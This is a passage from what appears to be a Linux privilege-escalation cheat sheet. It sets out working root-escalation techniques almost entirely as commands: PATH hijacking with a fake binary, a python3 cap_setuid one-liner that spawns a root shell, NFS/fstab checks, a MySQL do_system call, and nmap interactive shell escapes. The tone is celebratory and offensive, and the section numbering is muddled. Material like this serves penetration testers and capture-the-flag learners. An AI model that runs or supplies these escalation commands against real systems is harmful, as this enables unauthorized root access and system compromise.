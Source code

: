 ```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/fakebinary
chmod +x /tmp/fakebinary
export PATH=/tmp:$PATH
some_command     # If root executes it
```

---

## 🧠 12. **Capabilities (capsh)**

```bash
getcap -r / 2>/dev/null
```

Example:

```bash
/usr/bin/python3.8 = cap_setuid+ep
# Exploit:
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

## 🧨 13. **NFS / FSTAB / Mount Privileges**

Check `/etc/fstab` and mount permissions:

```bash
cat /etc/fstab
mount
```

If you can mount with `uid=0`, you may be able to escalate.

---

## 🧼 14. Mysql
if MySQL service is running as root we can 
```bash
mysql>>>    select do_system('id > /tmp/out; chown smeagol.smeagol /tmp/out');

mysql>>> \! sh
$ cat /tmp/out >>>>>> result of the above command.
```


### 15. Nmap

```sh
nmap --interactive

nmap>  !sh

# rooooteddddddddddddddddddddddddd
```
---
# 14. PATH
